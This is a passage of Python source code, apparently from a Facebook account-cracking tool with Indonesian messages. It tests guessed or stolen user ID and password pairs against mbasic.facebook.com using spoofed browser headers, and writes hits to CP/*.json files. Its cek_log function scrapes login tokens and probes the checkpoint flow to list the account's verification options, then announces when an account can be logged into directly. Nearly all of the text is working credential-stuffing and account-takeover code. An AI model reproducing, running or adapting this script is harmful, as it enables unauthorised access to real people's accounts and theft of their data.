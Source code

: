 			cp.append("%s|%s"%(uid, pw))
			open("CP/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
			break
		else:
			continue

	loop += 1
	
def cek_log(uid,pw,ua):
	mb = ("https://mbasic.facebook.com")
	ses = requests.Session()
	option = []
	ses.headers.update({"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": mb,"content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": mb+"/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	data = {}
	ged = parser(ses.get(mb+"/login/?next&ref=dbl&fl&refid=8", headers={"user-agent":ua}).text, "html.parser")
	fm = ged.find("form",{"method":"post"})
	list = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login","bi_xrwh"]
	for i in fm.find_all("input"):
		if i.get("name") in list:
			data.update({i.get("name"):i.get("value")})
		else:
			continue
	data.update({"email":uid,"pass":pw})
	run = parser(ses.post(mb+fm.get("action"), data=data, allow_redirects=True).text, "html.parser")
	if "checkpoint" in ses.cookies:
		form = run.find("form")
		dtsg = form.find("input",{"name":"fb_dtsg"})["value"]
		jzst = form.find("input",{"name":"jazoest"})["value"]
		nh   = form.find("input",{"name":"nh"})["value"]
		dataD = {"fb_dtsg": dtsg,"fb_dtsg": dtsg,"jazoest": jzst,"jazoest": jzst,"checkpoint_data":"","submit[Continue]":"Lanjutkan","nh": nh}
		tempek = parser(ses.post(mb+form["action"], data=dataD).text, "html.parser")
		ngew = [yy.text for yy in tempek.find_all("option")]
		print(f"\r{P}[•]{K}-----> {B}{uid}•{pw}")
		for opt in range(len(ngew)):
			jalan(f"{U}[{B}{str(opt+1)}{U}]{B}>>>>>{U}[{B}{ngew[opt]}{U}")
		if "0" in str(len(ngew)):
			jalan(f"{P}[•]{I} Hore akunya tab yesss, silahkan di login di fb lite ")
	elif "login_error" in str(run):
		jalan(f"\r{P}[•]{K}>>>>>>----> {B}{uid}•{pw}")
	else:
		jalan(f"\r{P}[•]{K}>>>>>>----> {B}{uid}•{pw}")


if __name__=="__main__":
    os.system("clear")
    mkdir_data_login()
    menu()

